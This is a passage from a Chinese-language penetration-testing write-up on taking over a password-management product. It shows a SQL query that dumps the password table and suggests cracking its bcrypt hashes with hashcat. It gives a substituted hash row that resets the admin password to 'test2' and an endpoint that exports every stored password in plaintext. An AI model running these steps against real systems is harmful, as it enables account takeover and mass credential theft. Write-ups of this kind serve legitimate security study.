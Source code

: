 ```plain
select * from aaapassword;
```

[![Untitled 30.png](assets/1698894127-6024848dce8c5ecca6e89e2ed3b835cd.png)](https://storage.tttang.com/media/attachment/2022/10/25/30d8c00c-c095-416d-a90b-badebfee53de.png)

这里密码是进行 bcryptsha512 加密的，可以用 hashcat 进行爆破

[![Untitled 31.png](assets/1698894127-9132c1ca9f723587551ec3936ed3ada4.png)](https://storage.tttang.com/media/attachment/2022/10/25/de409bd2-d0e4-47e8-9f85-e9c23f751ef6.png)

也可通过覆盖 hash 的方式修改 admin 账号的密码，例如修改为下列数据，即可将 admin 密码改为 test2

```plain
"password_id"   "password"  "algorithm" "salt"  "passwdprofile_id"  "passwdrule_id" "createdtime"   "factor"
"1" "$2a$12$bOUtxZzgrAu.3ApJM7fUYu7xBfxhJ4k2gx5CQE5BzMcN.cr/6cbhy"  "bcrypt"    "wwwECQECvU8zqfmCnXfSTgFnfz9CDl/cX+yDwJEhJ+91ADnOHbR0q7rOASpBqm2mQgYLHtlUJSX5u4ad7yOJpVNkoPJoI6gev75VAwAf/BTM4rpHTLT+cCdWMwnHmg=="  "1" "3" "1666345834309" "12"
```

注意⚠️：覆盖前务必备份源 hash 数据

[![Untitled 32.png](assets/1698894127-60a7513b8f7bdce1e3f500cbfb4d27a0.png)](https://storage.tttang.com/media/attachment/2022/10/25/6041cc4e-cccd-4b34-a7db-83bb5f32ceee.png)

进入后台后可直接导出所有明文密码

```plain
/jsp/xmlhttp/AjaxResponse.jsp?RequestType=ExportPasswords
```
